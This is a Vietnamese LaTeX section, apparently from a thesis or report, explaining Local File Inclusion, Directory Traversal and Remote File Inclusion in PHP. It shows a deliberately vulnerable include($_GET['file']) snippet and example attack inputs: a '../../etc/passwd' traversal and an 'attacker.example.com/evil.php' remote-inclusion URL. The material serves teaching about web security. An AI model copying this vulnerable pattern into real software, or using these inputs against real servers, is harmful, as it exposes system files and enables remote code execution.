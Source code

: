 \documentclass[./../main.tex]{subfiles}
\begin{document}
Ba lỗ hổng OS Command Injection, Remote Code Evaluation và Server Side Template Injection có vector khai thác và mức độ tác động tương tự nhau nên trong một số trường hợp được gọi chung với cái tên Code Injection.

\subsection{Local File Inclusion và Directory Traversal}
Local File Inclusion là lỗ hổng làm cho máy chủ làm lộ hoặc thực thi các
nội dung tập tin trên máy chủ đó. Trong các trường hợp như PHP, khi được
phép tải lên tùy ý tập tin lên thì lỗ hổng này có thể dẫn đến thực thi lệnh
trái phép trên máy chủ Web.

Ví dụ như đoạn mã sau:

\begin{lstlisting}[language=php, caption=Lỗ hổng Local File Inclusion]
    $file = $_GET['file'];
    include($file);
\end{lstlisting}

Với ví dụ trên, khi người dùng được phép tải lên tập tin tùy ý sẽ khiến cho có thể thực thi bất kì đoạn mã nào do PHP cho phép xử lý động các đoạn mã
khi được gọi câu lệnh `include'. Ví dụ như tham số `file' là `/var/www/upload/evil.php' Với `evil.php' là tập tin có chứ các đoạn mã thực thi lệnh
trái phép.

Kể cả khi không được tải lên tùy ý, lỗ hổng Local File Inclusion cũng
thường được kết hợp với Directory Traversal, cho phép tùy ý đọc tập tin
tại vị trí không được phép để làm lộ các thông tin nhạy cảm của hệ thống.

Ví dụ với tham số được chèn `../../etc/passwd' sẽ khiến thông tin về tập
tin `/etc/passwd' được trả về cho người dùng.

\subsection{Remote File Inclusion}

Tương tự như Local File Inclusion, Remote File Inclusion cho phép máy chủ
làm lộ hoặc thực thi các tập tin nhưng với nội dung từ xa. Thường thì các
dẫn đến thực thi lệnh trái phép trên máy chủ Web.

Tiếp tục với ví dụ của lỗ hổng Local File Inclusion, khi tùy chọn `php allow{\_}url{\_}fopen' được bật sẽ cho phép PHP tải về các nội dung trong URL. Nếu kẻ tấn công đưa vào tham số `file' là `http://attacker.example.com/evil.php' thì kẻ tấn công có thể thực thi lệnh trên máy chủ PHP.
\end{document}
